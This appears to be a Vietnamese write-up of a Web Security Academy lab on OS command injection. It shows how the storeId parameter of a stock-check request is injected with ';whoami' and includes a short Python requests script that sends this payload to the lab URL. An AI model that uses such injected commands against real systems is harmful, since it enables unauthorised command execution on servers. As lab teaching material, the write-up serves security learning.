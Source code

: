 ![image](https://hackmd.io/_uploads/SJyLgYcY6.png)

có lẽ lệnh whoami đã chuyền sai tham số và nó báo lại cho mình kết quả --help để tìm hiểu

có lẽ lệnh kiểm tra sản phẩm tồn kho sẽ gồm 2 tham số thế này

```
kiem_tra 1 1
```

và mình nhập `;whoami` vào sẽ thế này và trả về kết quả lỗi như trên

```
kiem_tra ;whoami 1
```

mình ngắt lệnh `kiem_tra` và lúc này hệ thống thực hiện lệnh `whoami 1` và bị lỗi

![image](https://hackmd.io/_uploads/rk51GF9Yp.png)

mình thực hiện:

```
productId=1&storeId=1;whoami
```

và sẽ trả về số sản phẩm qua lệnh kiem_tra tồn kho cùng user qua lệnh `whoami`

mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0acd009404c32e4f8077763200e40017.web-security-academy.net'

session = requests.Session()

data = 'productId=1&storeId=1;whoami'

response = requests.post(
    url + '/product/stock',
    data=data,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/B1xvmFcFp.png)
